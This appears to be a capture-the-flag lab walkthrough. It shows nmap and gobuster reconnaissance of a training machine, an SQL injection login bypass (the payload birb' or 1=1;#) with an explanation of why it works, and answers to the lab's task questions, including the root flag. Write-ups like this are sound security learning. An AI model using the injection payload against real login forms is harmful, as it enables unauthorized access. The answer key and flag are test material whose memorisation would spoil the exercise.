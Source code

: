 ## Walkthrough

- nmap scans

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 19:49 IST
Nmap scan report for 10.129.56.206
Host is up (0.57s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206 -sC -sV -p80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 20:00 IST
Nmap scan report for 10.129.56.206
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.62 seconds
```

- did a dirbust to find directories on the http server
- found nothing useful lol

```
┌─[birb@coffee]─[~]
└──╼ $gobuster dir --url 10.129.56.206 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.56.206
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/16 20:03:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.56.206/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.56.206/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.56.206/images/]
/index.php            (Status: 200) [Size: 4896]                                  
/js                   (Status: 301) [Size: 311] [--> http://10.129.56.206/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/vendor               (Status: 301) [Size: 315] [--> http://10.129.56.206/vendor/]   
===============================================================
2023/03/16 20:06:31 Finished
===============================================================
```

- opened `http://10.129.56.206` in browser

![[Pasted image 20230316231358.png]]

- tried sql injection to bypass login

> username : birb' or 1=1;#
> password : coffee
>
> behind the scenes because of the `'` the string ended there and the `or 1=1` part got executed. when combined together it would return true even if the user `birb` is not present. the `#` at the end comments out rest of the sql statement checks on the server side thus making the password check useless.

- got the flag

![[Pasted image 20230316231208.png]]

## Tasks

**What does the acronym SQL stand for?**

=>  Structured Query Language 

**What is one of the most common type of SQL vulnerabilities?**

=> SQL injection

**What does PII stand for?**

=> Personally Identifiable Information

**What is the 2021 OWASP Top 10 classification for this vulnerability?**

=> A03:2021-Injection

**What does Nmap report as the service and version that are running on port 80 of the target?**

=> Apache httpd 2.4.38 ((Debian))

**What is the standard port used for the HTTPS protocol?**

=> 443

**What is a folder called in web-application terminology?**

=> directory

**What is the HTTP response code is given for 'Not Found' errors?**

=> 404

**Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?**

=> dir

**What single character can be used to comment out the rest of a line in MySQL?**

=> #

**If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?**

=> Congratulations

**Submit root flag**

=> e3d0796d002a446c0e622226f42e9672